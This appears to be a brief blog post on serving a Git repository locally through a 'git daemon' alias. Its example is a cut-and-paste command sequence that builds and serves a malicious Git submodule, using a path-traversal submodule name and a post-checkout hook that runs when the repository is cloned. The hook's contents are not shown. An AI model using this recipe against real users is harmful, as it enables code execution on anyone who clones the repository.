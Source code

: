 ```yaml
---
title: "Git for Hackers"
date: 2020-06-03T10:00:00
categories:
  - blog
tags:
  - git
  - rough cuts
---
```



So Git is pretty cool, but what if the internet cuts out (server crash?) and you just want to update your work with a colleague? Well it was amazing to me when I found out that you can quickly locally serve out a git repo!


Below is actually a cut and paste for the creation and local deployment of a malicious Git submodule. The important parts here for the discussion are:
1. Creating the the repo `malicious.git`
2. Creating the alias to make your life easier
3. Running the alias on demand

```bash
$ mkdir malicious.git
$ cd malicious.git
$ git init . --bare
$ cd ../
$ git clone malicious.git
$ cd malicious
$ mkdir -p fakegit/modules/
$ git submodule add https://github.com/pentesterlab/empty.git evil
$ git submodule add https://github.com/pentesterlab/empty.git aaa
$ mv .git/modules/evil fakegit/modules/evil
$ # Make sure your post-checkout script starts with !/bin/sh
$ #vi fakegit/modules/evil/hooks/post-checkout
$ chmod 755 fakegit/modules/evil/hooks/post-checkout
$ git config -f .gitmodules --rename-section submodule.evil submodule.../../fakegit/modules/evil
$ sed -i 's/\.git/fakegit/' evil/.git
$ git add .
$ git commit -m "Initial import"
$ git push
$
$ git config --global alias.quickserve "daemon --verbose --export-all --base-path=malicious.git --reuseaddr --strict-paths malicious.git/"
$ git quickserve
```

